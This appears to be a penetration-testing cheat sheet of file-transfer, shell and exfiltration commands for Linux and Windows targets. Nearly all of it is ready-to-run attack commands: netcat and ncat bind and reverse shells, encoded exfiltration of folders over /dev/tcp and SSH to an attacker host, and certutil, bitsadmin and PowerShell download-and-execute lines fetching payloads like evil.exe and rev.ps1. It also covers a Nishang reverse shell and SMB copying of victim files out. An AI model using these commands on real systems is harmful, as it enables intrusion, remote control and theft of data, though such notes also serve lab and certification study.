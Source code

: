 # index

**Netcat \[nc\]** `nc -w 3 <target_ip> 1234 < LinEnum.sh` on target machine: `nc -l -p 1234 > LinEnum.sh` `nc IP_ADDR PORT > OUTFILE` \(run `nc -lvp PORT < infile` on attacking machine\)

**Bob sets listener with shell:**

`nc -lnvp 4444 -e cmd.exe` -&gt; Alice connects: `nc -nv 10.0.0.22 4444`

**or Bob listens:**

`nc -nlvp 4444` -&gt; Alice sends her shell to Bob's listener: `nc -nv 10.0.0.22 4444 -e /bin/bash`

**Ncat - Bind shell \[listener shares shell\]** `ncat --exec cmd.exe --allow 10.0.0.4 -vnl 4444 --ssl` `ncat -v 10.0.0.22 4444 --ssl`

**Ncat - Reverse shell \[connector shares shell\]** `ncat --exec cmd.exe -vn 192.168.100.145 4444 --ssl` `ncat -vnl 4444 --ssl --allow 192.168.100.146`

## Unix Transfer Methods

[https://unix.stackexchange.com/questions/47434/what-is-the-difference-between-curl-and-wget](https://unix.stackexchange.com/questions/47434/what-is-the-difference-between-curl-and-wget)

`wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh` `wget http://IP_ADDR/file -O /path/to/where/you/want/file/to/go` `curl http://attackerip/file > file` `fetch http://IP_ADDR/file` `ftp -s:input.txt` `tftp -i get file /path/on/victim`

**Upload a file** `curl --upload-file [-T] ./tecmint.txt https://transfer.sh/tecmint.txt` And rename it to an executable file using the MOVE method with the curl command: `curl -X MOVE --header Destination:http://$ip/leetshellz.php http://$ip/leetshellz.txt`

**Nc**

`nc -vl 44444 > pick_desired_name_for_received_file` `nc -N 10.11.12.10 44444 < /path/to/file/you/want/to/send`

### Exfil over TCP Socket with EBDIC and Base64

**On own attacker machine** `nc -nlvp 80 > datafolder.tmp`

**On target machine** `tar zcf - /tmp/datafolder | base64 | dd conv=ebcdic > /dev/tcp/<attacker_IP>/80`

**On own machine** `dd conv=ascii if=datafolder.tmp |base64 -d > datafolder.tar` `tar xf datafolder.tar`

**SSH to own machine** `tar zcf - /tmp/datafolder | ssh root@<attacker_IP > "cd /tmp; tar zxpf -"` tar the contents of our /tmp/datafolder while sending the output to \(-\) and then SSH it over to our attacker system

## Windows Transfer Methods

* [https://sushant747.gitbooks.io/total-oscp-guide/transfering\_files\_to\_windows.html](https://sushant747.gitbooks.io/total-oscp-guide/transfering_files_to_windows.html)
* [https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology and Resources/Windows - Download and Execute.md](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Download%20and%20Execute.md)

### Certutil

There are many ways to copy over files. I found **certutil.exe** to be the most reliable across Windows editions. For example; [https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/certutil](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/certutil) `cmd.exe /c "certutil[.exe] -urlcache -split -f http://$IP/Powerless.bat [Powerless.bat]"` `certutil.exe -urlcache -split -f "http://10.11.0.126/win32revtcp.exe" [shell.exe]`

### Bitsadmin

`bitsadmin /transfer download /priority normal http://IP_ADDR/file C:\output\path` \(Works on Windows 7/Windows Server 2000+\) `bitsadmin /transfer download /download /priority normal http://<attackerIP>/xyz.exe C:\\Users\\%USERNAME%\\AppData\\local\\temp\\xyz.exe`

### Python

```python
C:\Python2.7\python.exe -c "import urllib; f = urllib.URLopener(); f.retrieve('http://<attacker ip>/rs_powershell.exe', '/temp/rs_powershell.exe');"
```

### FTP

`Python ftp\ - python -m pyftpdlib -w -p 21` the best way i've found for file transfer on MOST machines is to just use plain old ftp. just about every windows machine has it installed by default, and you can get a really good quick and easy python script "`pip install pyftpdlib` or `pip3 install pyftpdlib`" once pyftpdlib is installed, just run it in the directory you want to download files to with "`python -m pyftpdlib -w -p 21`" then on your client machine type ftp -A your.ip.add.ress \(the -A is for Anonymous, these shells will hang on user/password entry sometimes, don't use this option with linux machines though\) and you're ready to transfer files! `python -m pyftpdlib -w -p 21` or `python3 -m pyftpdlib -w`

`ftp -s:input.txt` `tftp -i 10.11.0.126 get nc.exe`

### HTTP Server

`python3 -m http.server` `python -m SimpleHTTPServer`

## Powershell - \[download is in-memory\]

* `C:\> powershell.exe -exec bypass -Command “& {iex((New-Object System.Net.WebClient).DownloadFile(‘http://IP_ADDR:PORT/FILE','C:\Users\user\AppData\Local\ack.exe'));}”`
* `PS C:\> iex (New-Object Net.Webclient).DownloadString(“http://attacker_url/script.ps1")`
* `C:\> powershell iex (New-Object Net.Webclient).DownloadString(‘http://attacker_url/script.ps1’)`
* `powershell -exec bypass -c (New-Object Net.WebClient).DownloadString(\"http://10.11.0.84/rev.ps1\") | IEX; Invoke-Powershell`

#### DownloadFile method

```text
PS C:\> $downloader = New-Object System.Net.WebClient
PS C:\> $payload = "http://attacker_URL/payload.exe"
PS C:\> $local_file = "C:\programdata\payload.exe"
PS C:\> $downloader.DownloadFile($payload,$local_file)
```

#### Offsec

```text
C:\Users\Offsec> echo $storageDir = $pwd > wget.ps1
C:\Users\Offsec> echo $webclient = New-Object System.Net.WebClient >>wget.ps1
C:\Users\Offsec> echo $url = "http://10.11.0.5/evil.exe" >>wget.ps1
C:\Users\Offsec> echo $file = "new-exploit.exe" >>wget.ps1
C:\Users\Offsec> echo $webclient.DownloadFile($url,$file) >>wget.ps1

C:\Users\Offsec> powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1
```

#### Nishang

`iex (New-Object Net.Webclient).DownloadString("http://attacker_url/Invoke-PowerShellTcp.ps1"); Invoke-PowerShellTcp -Reverse -IPAdress <listener IP> -Port 4444`

#### Shares & Data Exfiltration

```bash
net use \\<ip> /user:DOMAIN\username password
net view \\<ip>
dir /s \\<host>\SHARE - recursive search
dir /s /Q /O:-D /T:A \\<hostname>\SHARE - find files
xcopy /s /E \\<host>\SHARE\dir c:\blah - Xcopy recursively files &
```

**SMB Server** `python /usr/share/doc/python-impacket/examples/smbserver.py files /root/Documents/oscp/files/windows-binaries`

**To put/get files:** `copy \\10.11.0.126\files\nc.exe` . `copy C:\bank-account.zip \\10.11.0.126\files\`

**Execute a file from SMB server** `\\10.9.122.8\ROPNOP\met8888.exe`

